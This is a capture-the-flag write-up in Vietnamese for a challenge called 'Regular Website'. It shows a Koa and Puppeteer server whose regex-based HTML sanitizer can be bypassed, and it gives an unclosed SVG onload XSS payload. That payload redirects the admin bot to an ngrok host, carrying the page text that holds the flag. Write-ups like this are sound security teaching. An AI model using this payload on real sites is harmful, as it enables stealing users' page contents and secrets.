

# Regular Website

## Description

They said you couldn't parse HTML with regex. So that's exactly what I did!

## Solution



> server.js

```
import Router from '@koa/router';
import Koa from 'koa';
import koaStatic from 'koa-static';
import bodyParser from 'koa-bodyparser';
import { launch } from 'puppeteer';
import { readFileSync } from 'fs';

const flag = readFileSync("flag.txt", "utf8");
const verbs = readFileSync("verbs.txt", "utf8").split("\n").map(s => s.trim()).filter(s => {
    return s.length > 0 && !s.startsWith("#");
});

const app = new Koa();
const browser = launch({args: ["--incognito", "--no-sandbox"]});

const router = new Router();
router.post("/", async ctx => {
    if (typeof ctx.request.body !== "object") {
        ctx.throw(400, "body must be an object");
        return;
    }
    const text = ctx.request.body.text;
    if (typeof text !== "string") {
        ctx.throw(400, "text must be a string");
        return;
    }

    const sanitized = text.replace(/<[\s\S]*>/g, "XSS DETECTED!!!!!!");
    const page = await (await browser).newPage();
    await page.setJavaScriptEnabled(true);
    try {
        await page.setContent(`
        <!DOCTYPE html>
        <html>
            <head>
                <meta charset="utf-8">
                <title>Comment</title>
            </head>
            <body>
                <p>Welcome to the Regular Website admin panel.</p>
                <h2>Site Stats</h2>
                <p><strong>Comments:</strong> ???</p>
                <p><strong>Flag:</strong> ${flag}</p>
                <h2>Latest Comment</h2>
                ${sanitized}
            </body>
        </html>
        `, {timeout: 3000, waitUntil: "networkidle2"});
    } catch (e) {
        console.error(e);
        ctx.status = 500;
        ctx.body = "error viewing comment";
        await page.close();
        return;
    }
    ctx.body = `The author of this site has ${verbs[Math.floor(Math.random() * verbs.length)]} your comment.`;
    await page.close();
});

app.use(bodyParser());
app.use(router.routes());
app.use(koaStatic("../public"));
app.listen(1337);
console.log("Listening on port 1337");
```

Dựa vào source ta có thể xác định đây là một chall về XSS(https://viblo.asia/p/ky-thuat-tan-cong-xss-va-cach-ngan-chan-YWOZr0Py5Q0)

Tuy nhiên ở đây có một vấn đề ta cần chú ý và nếu vượt qua đc thì coi như xong.
Để ý : ```const sanitized = text.replace(/<[\s\S]*>/g, "XSS DETECTED!!!!!!");```

Đoạn code này mục đích là để làm sạch đầu vào nó sẽ thay thế tất cả thẻ html có dạng ```<somthing>``` vì vậy trước tiên ta cần giải quyết vấn đề này.Sau khi tìm kiếm một số payload trên google thì mk đã thấy một cái có thể dùng được :

>Payload: <svg/onload=location="http://webattack ";//

Tiếp đến là khai thác XSS như thế nào ? Ta sẽ quay lại form phía trên , từ form này ta có thể gửi comment cho admin vì vậy khi gửi payload kia vô tình admin đọc được nó sẽ tự động thiết lập một request đến web của attacker .
Đa phần các kịch bản như vậy là để ăn cắp cookie hay session, tuy nhiên trong bài này để có flag ta cần đọc được nội dung trong trang của admin .

```
<!DOCTYPE html>
        <html>
            <head>
                <meta charset="utf-8">
                <title>Comment</title>
            </head>
            <body>
                <p>Welcome to the Regular Website admin panel.</p>
                <h2>Site Stats</h2>
                <p><strong>Comments:</strong> ???</p>
                <p><strong>Flag:</strong> ${flag}</p>
                <h2>Latest Comment</h2>
                ${sanitized}
            </body>
        </html>
```
Vì vậy payload cuối cùng đc thực thi sẽ là :

><svg/onload=location="http://8e140a765b26.ngrok.io?c/="+document.body.textContent;//

Đầu tiên tôi sẽ dựng một server bằng ngrok để nhận request đến, sau đó tôi sẽ gửi comment này cho admin , khi admin đọc nó sẽ có một request được gửi tới web của tôi và chứa thông tin của trang admin được đọc qua ```document.body.textContent```.


